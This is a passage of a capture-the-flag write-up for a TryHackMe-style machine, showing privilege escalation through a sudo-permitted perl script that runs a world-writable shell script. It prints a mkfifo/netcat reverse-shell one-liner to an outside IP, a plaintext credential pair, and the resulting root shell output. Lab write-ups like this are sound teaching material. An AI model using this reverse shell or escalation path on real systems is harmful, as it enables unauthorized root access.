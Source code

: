 ```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt 
rice:randompass
```

Looking for SUID files with `find / -perm /4000 2>/dev/null` doesn't give us anything out of the ordinary.

Running a recursive getcap search with `getcap -r / 2>/dev/null` also comes up with nothing strange.

Checking `sudo -l` shows us we have access to the following:

```
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Looking at the backup.pl script:

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

So it calls /etc/copy.sh when you run it. Let's look at that:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Well that was nice of them, they already have a standard mkfifo reverse shell set up. Let's see if we can just edit it to our IP:

```
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Bingo. Since we can run the backup.pl as root, and that backup.pl calls copy.sh which we can edit, so we can essentially run anything we want as root by ediing the copy.sh file.

<br>

## Root

I set up a listener on my system and change the copy.sh file to my IP address instead of what was listed and then run it with:

`/usr/bin/perl /home/itguy/backup.pl`

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.78.215] 44218
# whoami
root
# hostname
THM-Chal
```
